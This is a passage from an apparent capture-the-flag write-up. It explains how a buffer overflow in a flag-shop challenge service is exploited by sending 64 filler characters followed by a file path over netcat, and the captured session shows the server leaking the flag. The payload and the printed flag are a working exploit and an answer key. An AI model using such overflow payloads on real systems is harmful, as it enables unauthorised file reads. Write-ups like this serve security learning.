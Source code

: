 - `https://faq.cprogramming.com/cgi-bin/smartfaq.cgi?answer=1049157810&id=1043284351`
- Exploit the buffer overflow by crafting a payload with random 64 characters then the file name that we want to open
```
[theonlyonzz@theone files]$ nc srv1.momandpopsflags.ca 1946
Hi! Welcome to the "Mom and Pops' Flags" flag search page!
Please enter the name of the flag you wish to purchase: 1111111111111111111111111111111111111111111111111111111111111111./flag.txt       

Oh, sorry! We don't have that flag in stock :(
Here is a list of the available flags:
magpie{5tumBl3D_tH3_5t4cK_4h502aBAS76}
```
